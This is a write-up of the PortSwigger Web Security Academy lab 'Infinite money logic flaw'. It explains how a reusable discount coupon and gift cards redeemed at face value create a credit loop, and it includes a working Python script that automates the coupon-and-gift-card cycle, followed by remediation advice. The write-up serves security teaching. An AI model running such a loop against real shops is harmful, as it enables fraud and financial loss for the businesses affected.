# Lab: Infinite money logic flaw

| Field | Details |
|-------|---------|
| **Provider** | PortSwigger |
| **Difficulty** | Apprentice |
| **Category** | Business logic |
| **Date** | 2026-08-04 |

---

## Summary

Infinite money logic flaw is a lab in the PortSwigger Web Security Academy.
In this lab our balance is $100 and we have to buy a leather jacket which has a $1337 price.
There is no broken confirmation, no integer overflow, and no price manipulation.

How can we do this?
In this writeup I'll solve this challenge manually step by step.



---

## Reconnaissance

When I opened the shop, I saw the target item and more products.



Next, I logged into the given account using the given credentials (`wiener:peter`).
There was a $100 shopping credit in the account, and users were also able to redeem gift cards to increase their balance.



That was eye-catching because I'd seen a gift card in the shop products, and I could afford it for 10 dollars:


So I added that gift card to my shopping cart and placed the order.
After submission, I got a code for the gift card — a random token with 10 characters including numbers, uppercase and lowercase letters.



So I copied that code, pasted it into `profile` → `gift card code`, and pressed redeem.
My balance came back to $100 (it was $90 after buying the card).



<br>

There was another input on the shop page where users could sign up to the newsletter with their email address,
and after that they would receive a `$3` discount coupon.


The discount coupon code was: `SIGNUP30`.
Users could apply it during the checkout process.



So I added another gift card to my cart, used this coupon, spent $7, and after redeeming the gift card again I got $10 back.
My balance was now `$103`.



>The vulnerability occurs here.

I could use the same coupon over and over again — it never expired.
This means an infinite money glitch if you can buy $10 gift cards for a lower price.

<br>

Let's take a look at the requests in Burp Suite to recognize the exact flow:

1. Add to cart:
- A POST request to `/cart` with request body containing: `productId`, `redir`, `quantity`



2. Applying coupon:
- A POST request to `/cart/coupon` containing a `csrf` token and `coupon`
- The CSRF token comes from the profile page



3. Checkout:
- A POST request to `/cart/checkout` containing a `csrf` token only



4. Order confirmation:
- A GET request to `/cart/order-confirmation?order-confirmed=true`


5. Gift card redeem:
- A POST request to `/gift-card` containing a `csrf` token and `gift-card` code



<br>

And this is the entire process flow.
Also note that the gift card code can be found in the order confirmation GET request's response (stage 4).



<br>

So as an attacker, how can I abuse this flow?

---

## Exploitation

First of all, I needed to know how many times I should repeat this flow to reach more than $1337 in credits.
I already have `$100`.
Each time I repeat this flow, I gain another `$3`.
So:

```
1337 - 100 = 1237
```

I need $1237 more.

```
1237 / 3 = 412
```



I need to repeat this flow `412` times.
So how do I handle this? I'm not going to send 412 × 5 requests manually in Repeater.

Using Burp Suite, you can define a macro to chain these 5 requests in order, extract the needed information, and bind this macro to Intruder.
In my opinion though, this is not simple enough to debug, you have less control over the flow, and it's Burp-dependent — Community Edition users won't get the best performance out of it.

So if you know a little Python, you can just write a clean exploit script instead.

My next step was installing the `httpx` package:

```bash
pip install httpx httpx[http2]
```


`httpx` is a Python library very similar to `requests`. The reason I chose it over `requests` is that `requests` does not support HTTP/2.

And my exploit code was:

```python
import httpx
import re

URL = "https://variableSub.web-security-academy.net"
s = httpx.Client(http2=True)
s.cookies.set("session", "Your Session Here")

def csrf():
    r = s.get(URL+"/my-account")
    csrfToken = re.search(r'name="csrf"\s+value="([^"]+)"', r.text).group(1)
    return csrfToken

def cycle():
    csrfToken = csrf() # getting a fresh CSRF token every cycle because the application may rotate it anytime

    s.post(URL+"/cart", data={"productId": "2", "redir": "PRODUCT", "quantity": "1"})
    s.post(URL+"/cart/coupon", data={"csrf": csrfToken, "coupon": "SIGNUP30"})
    s.post(URL+"/cart/checkout", data={"csrf": csrfToken})

    codeResp = s.get(URL+"/cart/order-confirmation?order-confirmed=true")
    code = re.search(r'<td>([A-Za-z0-9]{10})</td>', codeResp.text).group(1)

    s.post(URL+"/gift-card", data={"csrf": csrfToken, "gift-card": code})

for i in range(450): # 450 instead of 412 just to have some buffer in case anything goes wrong
    cycle()
    print(i)
```



<br>

I executed the exploit code — as you can see, my balance was increasing with each cycle.



---

## Result

450 cycles, a few minutes of waiting, and the balance crossed $1337.
Bought the leather jacket, lab solved.

The interesting part is how simple the loop is — five requests, a regex to grab the gift card code, repeat.
No complex bypass, no race condition, no crypto. Just a coupon that never expires and a script that doesn't get tired.



---

## Impact & Remediation

The root cause here is that a one-time discount coupon isn't actually one-time. There's no server-side check that marks the coupon as used after the first redemption — so it can be applied on every order, indefinitely.

Combined with the fact that gift cards can be bought at a discount and redeemed at face value, this creates a money loop. Each cycle nets $3. Scale it up with a script and you can reach any balance.

In a real application this could mean unlimited store credit, draining the platform's gift card inventory, or in more complex systems, actual financial loss if the credits translate to real money.

The fix is straightforward: track coupon usage server-side, tied to the user's account, and reject it after the first use. One coupon, one redemption, done.

More broadly, any promotional logic — coupons, referral bonuses, gift cards, cashback — needs to be validated with a clear server-side state. "Has this user already used this offer?" is a question the server should always be able to answer.

---

## Takeaway

This lab is a good reminder that business logic bugs don't look like typical vulnerabilities. No injection, no access control bypass, no cryptographic weakness — just a coupon that wasn't tracked properly.

A few things worth remembering:

* **Always look at promotional features carefully.** Coupons, gift cards, referral codes, and discount systems are some of the most commonly overlooked attack surfaces. They're designed to give users value, and if the limits aren't enforced server-side, an attacker will find a way to loop them.

* **Manual testing reveals the flow, scripting exploits it.** Doing one cycle by hand showed me exactly what requests were involved and what data needed to be extracted. Writing the script was straightforward once I understood the flow. This is the right order — don't automate something you don't understand yet.

